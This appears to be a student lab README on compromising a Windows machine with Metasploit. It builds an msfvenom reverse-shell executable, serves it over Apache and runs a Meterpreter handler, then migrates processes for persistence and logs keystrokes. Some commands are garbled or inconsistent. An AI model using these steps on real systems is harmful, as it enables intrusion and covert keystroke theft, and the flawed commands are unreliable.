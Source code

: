 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM: Find the attackers ip address using ifconfig
![Screenshot 2025-04-19 140534](https://github.com/user-attachments/assets/fc5d6892-8ae7-4444-98dd-35e8b8b6e698)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start Check the status of apache2 sudo apache2 status
## output:
![Screenshot 2025-04-19 142126](https://github.com/user-attachments/assets/3df01d98-0aab-49b5-b347-4107bd914b23)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## output:
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![431915762-729dc34c-b5b1-4cc6-8770-22d2331caede](https://github.com/user-attachments/assets/9d271d68-4a2f-453c-ac8b-8bca86c8b4bb)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
![431915851-d93cac14-3fc3-444b-8159-bc2e0bc66d3a](https://github.com/user-attachments/assets/f2ca75f7-2887-4336-ae2e-12c6013105cb)
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![431915958-2cfb6dd1-773b-4b42-9cd5-6cbb204a3145](https://github.com/user-attachments/assets/5648e16b-3be2-4722-806d-4ddfbe014106)


Post Exploitation: The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![431916021-0810a377-a529-4f89-896e-af33fad9b043](https://github.com/user-attachments/assets/b5f08410-8ba5-4300-9044-0611f4724bbb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
